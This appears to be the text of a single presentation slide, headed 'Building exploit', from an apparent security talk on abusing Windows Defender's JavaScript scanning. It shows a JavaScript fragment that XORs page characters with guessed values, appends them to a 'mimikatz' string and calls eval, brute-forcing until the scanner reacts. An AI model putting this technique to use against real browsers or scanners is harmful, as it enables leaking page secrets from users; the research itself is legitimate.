

# Building exploit
JavaScript
$idx and $c would be iterated

Windows Defender get angry if $c is appropriate
It requires 256 times try for each $idx :(
var body = document.body.innerHTML;
var mal = "mimikatz...dis";
var n = body[$idx].charCodeAt(0);
mal = mal + String.fromCharCode(n^$c);
eval(mal);